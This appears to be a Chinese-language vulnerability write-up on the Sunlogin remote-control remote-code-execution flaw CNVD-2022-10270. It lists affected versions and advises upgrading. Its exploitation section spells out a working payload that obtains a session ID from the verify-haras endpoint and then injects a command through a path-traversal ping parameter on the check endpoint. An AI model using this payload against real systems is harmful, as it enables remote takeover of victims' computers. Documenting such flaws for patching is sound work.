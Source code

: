 # 向日葵RCE（CNVD-2022-10270）

![image-20220217103539107](https://gitee.com/greetdawn/blogImages/raw/master/img/image-20220217103539107.png)



# 漏洞描述

​	向日葵是一款免费的，集远程控制电脑手机、远程桌面连接、远程开机、远程管理、支持内网穿透的一体化远程控制管理工具软件。

​	上海贝锐信息科技股份有限公司向日葵个人版for Windows存在命令执行漏洞，攻击者可利用该漏洞获取服务器控制权。



# 漏洞等级

严重



# 漏洞利用

向日葵在启动时会随机启动一个4W+的高位端口这个可以在启动日志中找到高位端口的位置

![](https://gitee.com/greetdawn/blogImages/raw/master/img/Image.png)

这里漏洞主要在ckeck接口中存在ping命令拼接所致先通过接口获取session id /cgi-bin/rpc?action=verify-haras

![Image](https://gitee.com/greetdawn/blogImages/raw/master/img/202202171041514.png)

利用check接口拼接payload /check?cmd=ping../../../../../../../../../../../windows/system32/whoamiheader头插入cookie: CID=CLx1PDE6V7X7MyHftDYGnC0MyXCtqSYh

![Image](https://gitee.com/greetdawn/blogImages/raw/master/img/202202171041613.png)



# 漏洞版本

可能存在如下版本，但不限于

SunloginClient_11.0.0.33162_X64

SunloginClient_11.0.0.33162_X64

SunloginClient_11.1.1_X64



# 修复建议

请尽快在官网进行其版本升级

厂商已发布了漏洞修复程序，请及时关注更新：

https://sunlogin.oray.com/